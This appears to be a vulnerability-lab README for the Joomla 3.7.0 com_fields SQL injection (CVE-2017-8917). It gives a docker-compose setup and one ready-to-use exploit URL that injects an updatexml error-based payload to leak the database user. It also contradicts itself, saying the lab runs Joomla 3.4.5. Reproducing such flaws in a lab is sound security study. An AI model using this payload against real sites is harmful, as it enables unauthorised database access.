

# Joomla 3.7.0 com_fields SQL Injection Vulnerability (CVE-2017-8917)

[中文版本(Chinese version)](README.zh-cn.md)

Joomla is a free and open-source content management system (CMS) that allows users to build websites and online applications. It was first released in 2005 and has since become one of the most popular CMS platforms, powering millions of websites around the world.

An SQL injection vulnerability is caused by a new component, com_fields, which was introduced in version 3.7.

References:

- <https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html>
- <https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html>

## Vulnerable environment

Executing following command to start a Joomla 3.4.5:

```
docker-compose up -d
```

After the server is started, you can see the home page of it at `http://your-ip:8080`.

## Exploit

Visit following link directly to reproduce the SQL injection attack:

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
```


